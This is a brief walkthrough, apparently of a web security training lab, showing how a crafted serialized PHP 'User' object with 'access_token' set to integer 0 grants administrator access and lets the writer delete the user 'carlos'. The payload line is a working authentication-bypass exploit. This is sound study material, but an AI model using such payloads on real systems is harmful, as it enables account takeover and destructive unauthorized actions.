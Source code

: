 
1. Log in;
2. Change the structure of the `wiener` token to:

```
O:4:"User":2:{s:8:"username";s:13:"administrator";s:12:"access_token";i:0;}

```

![](/static/img/Pasted_image_20231121180323.png)

3. Access the `my-account` path using the crafted token

![](/static/img/Pasted_image_20231121180354.png)


4. Delete `carlos` user;

![](/static/img/Pasted_image_20231121180523.png)

![](/static/img/Pasted_image_20231121180538.png)

